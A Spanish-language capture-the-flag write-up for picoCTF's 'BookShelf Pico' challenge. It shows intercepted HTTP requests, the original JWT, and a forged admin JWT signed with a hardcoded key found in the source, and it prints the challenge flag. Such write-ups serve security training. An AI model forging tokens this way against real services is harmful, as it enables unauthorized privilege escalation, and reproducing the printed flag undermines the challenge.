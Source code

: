 
## Descripción

*BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!Here are the credentials to get you started:

- Username: "user"
- Password: "user"

Source code can be downloaded [here](https://artifacts.picoctf.net/c/484/bookshelf-pico.zip).Website can be accessed [here!](http://saturn.picoctf.net:53059/).*
## Pistas

*Maybe try to find the JWT Signing Key ("secret key") in the 
source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?*

*The 'role' and 'userId' fields in the JWT can be of interest to you!*
*The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.*

*Upgrade your 'role' with the _new_ (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.*
## Solución


```
*Abrimos burpsuite*
*le pasamos el url*
*nos muestra el get:*
GET / HTTP/1.1
Host: saturn.picoctf.net:53059
Accept-Language: es-419,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

*Ahora nos da el post de conexion*
POST /base/login HTTP/1.1
Host: saturn.picoctf.net:53059
Content-Length: 34
Accept-Language: es-419,es;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Origin: http://saturn.picoctf.net:53059
Referer: http://saturn.picoctf.net:53059/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"user","password":"user"}

*elegeimos el libro flag*
*nos muestra un get con un jwt*
GET /base/books/cover/5 HTTP/1.1
Host: saturn.picoctf.net:53059
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc0NTM2OTQ3NCwiaWF0IjoxNzQ0NzY0Njc0LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.zvMZM4Q61erahnAMCs8X7wBE6VnRA6MmGCWWmWCVb9k
Accept-Language: es-419,es;q=0.9
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Referer: http://saturn.picoctf.net:53059/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

*para saber que es entramos a jwt.io*
*como no tenemos permiso de admin cambiamos el jwt a usuario admin y id 2 y contraseña con el 1234 q viene en los archivos del proyecto  *
{

  "typ": "JWT",

  "alg": "HS256"

}

PAYLOAD:DATA

{

  "role": "Admin",

  "iss": "bookshelf",

  "exp": 1745372355,

  "iat": 1744767555,

  "userId": 2,

  "email": "admin"

}

VERIFY SIGNATURE

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  1234
) secret base64 encoded
*nos da un nuevo*: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDUzNzIzNTUsImlhdCI6MTc0NDc2NzU1NSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.6jfM0GQF9dmwxKQ5XIz7KBq4MEPjp_EGNjaclrLvU_g

*lo modificamos en el codigo actualizamos y nos muestra la bandera.*
Great job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}


```
picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}
## Notas Adicionales 

*tambien se puede modificar desde inspeccionar en aplicacion,almacenamiento interno cambiamos el 
|auth-token|eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDUzNzIzNTUsImlhdCI6MTc0NDc2NzU1NSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.6jfM0GQF9dmwxKQ5XIz7KBq4MEPjp_EGNjaclrLvU_g

y el token-payload:
{ "role": "Admin", "iss": "bookshelf", "exp": 1745372355, "iat": 1744767555, "userId": 2, "email": "admin" }
actualizamos y nos da la bandera.
## Referencias 
http://saturn.picoctf.net:53059/#/
